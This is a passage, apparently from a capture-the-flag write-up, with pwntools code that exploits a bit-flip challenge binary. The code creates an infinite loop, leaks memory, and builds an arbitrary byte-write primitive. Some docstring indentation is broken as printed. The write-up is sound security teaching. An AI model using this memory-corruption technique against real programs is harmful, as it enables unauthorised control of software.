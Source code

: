 ```python
p = process("./cosmicrayv3")

RET_ADDR = 0x00000000004015aa # ret at the end of cosmic_ray

def flip_bit(addr, bit):
	p.sendlineafter(b"Enter an address to send a cosmic ray through:\n", f"{addr}")
	p.sendlineafter(b"Enter the bit position to flip:\n", f"{bit}")

def infinite_loop():
# ret at the end of the cosmic_ray function
	flip_bit(hex(RET_ADDR), 3)

infinite_loop()
```

Now, let's write a function that writes **bytes** to memory instead of bits. The idea is that we first get a memory leak of what's currently in the address, then we check which positions we need to flip by comparing the bits of the desired byte to write, and the bits we get in the memory leak:

```python
def mem_leak(addr):
"""
Return the byte stored in addr as its bits
"""
	print("-----SENDING ADDDR {}-----".format(addr))
	p.sendlineafter(b"Enter an address to send a cosmic ray through:\n", f"{addr}")
	#p.interactive()
	p.recvline() # empty line
	p.recvline() # |0|1|2|3|4|5|6|7|
	p.recvline() # -----------------
	ret = p.recv(18) # The actual bits
	p.sendlineafter(b"Enter the bit position to flip:\n", "0") # We'll immedaitly flip this back afterwards to not ruin anything
	flip_bit(addr, 0)

	return ret[0:].split(b"|")[1:9] # Split with the "|" character

def write_byte(addr, byte):
"""
Write the byte <val> to the address <addr>
"""
	leak = mem_leak(addr) # Get the current value of the byte as a list
	to_flip = [] # Which bits should we flip to get to the desired byte?
  
	for i in range(8):
		# Is the bit at position i of <byte> the same as currently
		# held in the address?
		if ord(leak[i]) - 0x30 == (byte >> (7 - i)) & 1:
			to_flip.append(b"0")
		else:
			to_flip.append(b"1")

	for i in range(8):
		if to_flip[i] == b"1":
			flip_bit(addr, i)
```
